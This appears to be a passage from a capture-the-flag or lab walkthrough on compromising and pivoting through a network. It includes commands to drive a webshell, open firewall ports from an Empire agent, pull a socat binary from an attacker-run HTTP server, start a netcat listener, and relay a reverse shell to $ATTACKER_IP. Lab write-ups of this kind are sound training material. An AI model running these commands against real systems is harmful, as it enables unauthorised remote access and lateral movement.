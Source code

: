 ```bash
$ python3 exploit.py
```

First up, let's use some basic enumeration to get to grips with the webshell:

- What is the hostname for this target?

```bash
$ curl -X POST http://localhost:10001/web/exploit-unknown.php -d "a=hostname"
```

> git-serv

- What operating system is this target?

> windows

- What user is the server running as?

```bash
$ curl -X POST http://localhost:10001/web/exploit-unknown.php -d "a=whoami"
```

> nt authority\system

Try to ping yourself from the .150 machine. How many packets make it to the waiting 
listener? 

> 0

Ok, in the Empire Agent, run following commands:

```bash
$ firewall-cmd --zone=public --add-port 15182/tcp

$ firewall-cmd --zone=public --add-port 15183/tcp
```

You should see it return "success" in both cases. Next, download [socat for linux](https://sourceforge.net/projects/unix-utils/files/socat/) and upload it to the .200 machine.

Attacker machine:

```bash
$ sudo python3 -m http.server 80
```

Empire Agent:

```bash
$ curl http://10.50.91.83:80/socat -o socat-unknown && chmod +x socat-unknown
```

On attacker machine:

```bash
$ sudo nc -lvnp 443
```

Next, in a separate Empire Agent create a Socat Reverse Shell Relay:

```bash
$ ./socat-unknown tcp-l:15182 tcp:$ATTACKER_IP:443 &
```
